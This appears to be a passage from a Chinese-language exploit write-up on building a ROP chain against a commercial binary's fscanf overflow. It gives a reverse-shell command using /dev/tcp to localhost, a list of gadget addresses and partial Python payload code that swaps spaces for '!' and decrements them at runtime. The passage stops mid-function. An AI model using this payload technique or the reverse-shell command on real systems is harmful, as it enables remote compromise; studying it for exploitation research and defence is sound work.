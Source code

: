 接下来看看能不能利用。checksec发现没有canary也没有PIE，好消息，这样就能用ROP了。

这里顺便说一下fscanf这个函数，他其实遇到\x00不会截断，但是遇到空格回车就会截断了，所以构造payload的时候要防止这几个字符的出现。

### system函数

看下这个文件，发现有system函数可用，很幸运。

```assembly
.plt:0000000000406D80 ; int system(const char *command)
.plt:0000000000406D80 _system         proc near               ; CODE XREF: sub_409490+9D↓p
.plt:0000000000406D80                                         ; sub_40A660+9F3↓p ...
.plt:0000000000406D80                 jmp     cs:off_68F258
.plt:0000000000406D80 _system         endp
```

我们的目标是，反弹一个shell到本机端口上面，即，执行

```bash
`/bin/sh >& /dev/tcp/127.0.0.1/8080 0>&1`
```

但是，system函数（/bin/dash）好像并不支持>&这种语法，所以要写成

```python
"echo \"/bin/sh >& /dev/tcp/127.0.0.1/8080 0>&1\" | /bin/bash\x00"
```

### ROP

接着开始思考如何构造ROP。

首先我们需要把这个字符串写入到一片内存，然后用这片内存的起始地址作为参数调用system。

用ROPgadget搜索ROP，发现很多gadget可以用（这种商业程序开起优化来能用的gadget就是多啊，一般CTF最多就一个leave\+ret。。。）

但是问题来了，不能出现空格，而这里空格是无法避免的，所以我们可以先写进去一个\!然后动态减1让他变成空格（空格的ASCII就是感叹号减1）

用到的ROP基本上就是套路了，用了pop reg; ret来让寄存器加载我们的数据，然后xchg mem, reg 来把值写入内存。然后sub mem, reg来进行减一操作，具体用到的是

```python
# 0x0000000000408ed5 pop rbp ; ret
# 0x0000000000418fa0 pop rcx ; ret
# 0x000000000046e162 xchg dword ptr [rcx], ebp ; ret
# 0x0000000000462DD6 sub [rdi], cl
# 0x0000000000407912 pop rdi ; ret
```

然后生成payload的代码是

```python
def get_space_idx(payload):
	ret = []
	new_payload = ""
	length = len(payload)
	for i in xrange(0, length):
		if payload[i] == " ":
			ret.append(i)
			new_payload += "!" # ! is space + 1 in ASCII
		else:
			new_payload += payload[i]

	return ret, new_payload

def form_rop_chain(buf_addr, old_payload):
	spaces_idx, payload = get_space_idx(old_payload)
	payload += (4 - (len(payload) % 4)) * "\x00"
	ret = ""
	pop_rbp_ret = p64(0x408ed5)
	pop_rcx_ret = p64(0x418fa0)
	pop_rdi_ret = p64(0x407912)
	xchg_ret = p64(0x46e162)
```